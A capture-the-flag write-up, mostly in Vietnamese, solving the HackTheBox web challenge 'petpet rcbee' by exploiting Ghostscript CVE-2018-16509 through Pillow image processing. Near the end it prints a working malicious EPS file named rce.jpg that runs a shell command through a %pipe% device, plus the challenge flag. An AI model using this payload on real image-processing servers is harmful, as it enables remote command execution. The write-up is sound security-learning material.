# HACKTHEBOX - Web: petpet rcbee

**CHALLENGE DESCRIPTION**

Bees are comfy 🍯
bees are great 🌟🌟🌟
this is a petpet generator 👋
let's join forces and save the bees today! 🐝

## Quick Review

![Screenshot (887)](https://user-images.githubusercontent.com/71699412/171579233-4ea4071a-3518-4c4a-81ed-09bbb1929b08.png)

Challenge cho source code, file `/app/util.py`
```python
# ..............
def allowed_file(filename):
    return '.' in filename and \
        filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS

def petmotion(bee, frames):
    outputFrames = []

    for frame in frames:
        newFrame, i = Image.new('RGBA', frame.size), frames.index(frame)
        width   = int(75*(0.8 + i * 0.02))
        height  = int(75*(0.8 + i * 0.05))
        kaloBee = bee.resize((width, height))
        frame   = frame.convert('RGBA')
        newFrame.paste(kaloBee, mask=kaloBee, box=(30, 37))
        newFrame.paste(frame, mask=frame)
        outputFrames.append(newFrame)
    
    return outputFrames

def save_tmp(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, secure_filename(file.filename))
    file.save(path)
    return path
 
def petpet(file):

    if not allowed_file(file.filename):
        return {'status': 'failed', 'message': 'Improper filename'}, 400
 
    try:
        
        tmp_path = save_tmp(file)

        bee = Image.open(tmp_path).convert('RGBA')
        frames = [Image.open(f) for f in sorted(glob.glob('application/static/img/*'))]
        finalpet = petmotion(bee, frames)
# .............
```

Tính năng web app này đơn giản chỉ là nhận file ảnh(bị white list các extension) rồi dùng `Pillow` trong Python để chỉnh sửa lại ảnh, thêm hiệu ứng vuốt ve rồi trả về.

Review đi lại thì thấy source code không hề dính lỗi gì, từ path traversal cho đến upload malicious file,... và thế là chỉ có thể dính CVE thôi.

file `Dockerfile`:
```bash
FROM python:3

# Install system dependencies
RUN apt update -y; apt install -y curl supervisor 

# Install Python dependencies
RUN pip install flask Pillow

# Switch working environment
WORKDIR /tmp

# Install Pillow component
RUN curl -L -O https://github.com/ArtifexSoftware/ghostpdl-downloads/releases/download/gs923/ghostscript-9.23-linux-x86_64.tgz \
    && tar -xzf ghostscript-9.23-linux-x86_64.tgz \
    && mv ghostscript-9.23-linux-x86_64/gs-923-linux-x86_64 /usr/local/bin/gs && rm -rf /tmp/ghost*
```

Challenge install Pilow version mới nhất nên chắc chẳng có gì đáng nhìn ở đây ngoài cái `ghostscript version 9.23`, tra google phát là ra `CVE-2018-16509`.

**Tham khảo**: https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509

**Tóm tắt**: Nội dung của file upload sẽ được load bởi `img = Image.open(img_path)`. `PIL` sẽ tự đổng kiểm tra xem liệu ảnh có là 1 `EPS image`(example: add %!PS-Adobe-3.0 EPSF-3.0 at the beginning of file) và sẽ gọi `call _open()` ở class `EpsImageFile` trong `EPSImagePlugin.py`. Để tránh `IOError`("cannot determine EPS bounding box"), 1 `bounding box` cần phải được thêm vào file. Ví dụ: `%%BoundingBox: -0 -0 100 100`

Thân của EPS image sẽ được xử lí bằng `Ghostscript` với subprocess ở `EPSImagePlugin.py` trong hàm `Ghostscript`.
```python
    # Build Ghostscript command
    command = ["gs",
               "-q",                         # quiet mode
               "-g%dx%d" % size,             # set output geometry (pixels)
               "-r%fx%f" % res,              # set input DPI (dots per inch)
               "-dBATCH",                    # exit after processing
               "-dNOPAUSE",                  # don't pause between pages
               "-dSAFER",                    # safe mode
               "-sDEVICE=ppmraw",            # ppm driver
               "-sOutputFile=%s" % outfile,  # output file
               "-c", "%d %d translate" % (-bbox[0], -bbox[1]),
                                             # adjust for image origin
               "-f", infile,                 # input file
               "-c", "showpage",             # showpage (see: https://bugs.ghostscript.com/show_bug.cgi?id=698272)
               ]


    ....

    try:
        with open(os.devnull, 'w+b') as devnull:
            startupinfo = None
            if sys.platform.startswith('win'):
                startupinfo = subprocess.STARTUPINFO()
                startupinfo.dwFlags |= subprocess.STARTF_USESHOWWINDOW
            subprocess.check_call(command, stdin=devnull, stdout=devnull,
                                  startupinfo=startupinfo)
```
Phần code trên được chạy khi load được gọi `Image.py` Nên khi mở ảnh thì lỗi sẽ không hề được trigger. Hàm như `resize`, `crop`, `rotate`, và `save` Sẽ gọi và trigger đoạn code trên gây ra RCE.

Combined with POC from [Tavis Ormandy](https://seclists.org/oss-sec/2018/q3/142), we can craft `rce.jpg` for remote shell command execution.

malicious RCE file: `rce.jpg`
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cp /app/flag /app/application/static/petpets/flag) currentdevice putdeviceprops
```

Lấy flag thôi:
```bash
curl http://IP:PORT/static/petpets/flag
```

**flag**: `HTB{c0mfy_bzzzzz_rcb33s_v1b3s}`




**Thông tin**:

Python PIL/Pillow Remote Shell Command Execution via Ghostscript CVE-2018-16509
Inspired by https://github.com/ysrc/PIL-RCE-By-GhostButt (PIL/Pillow RCE via CVE-2017-8291). This docker environment version is using the newer version of Ghostscript (v9.23) and newer exploit (CVE-2018-16509).

Ghostscript is a suite of software based on an interpreter for Adobe Systems PostScript and Portable Document Format (PDF) page description languages. Somehow, Ghostscript is exist in the production server (e.g. /usr/local/bin/gs) even when no application use it directly because Ghostscript is installed as dependency of another software (e.g. ImageMagick). Bunch of vulnerabilities were found in Ghostscript; one of them is CVE-2018-16509 (discovered by Tavis Ormandy from Google Project Zero), a vulnerability that allows exploitation of -dSAFER bypass in Ghostscript before v9.24 to execute arbitrary commands by handling a failed restore (grestore) in PostScript to disable LockSafetyParams and avoid invalidaccess. This vulnerability is reachable via libraries such as ImageMagick or image library in the programming language with Ghotscript wrapper (PIL/Pillow in this example).
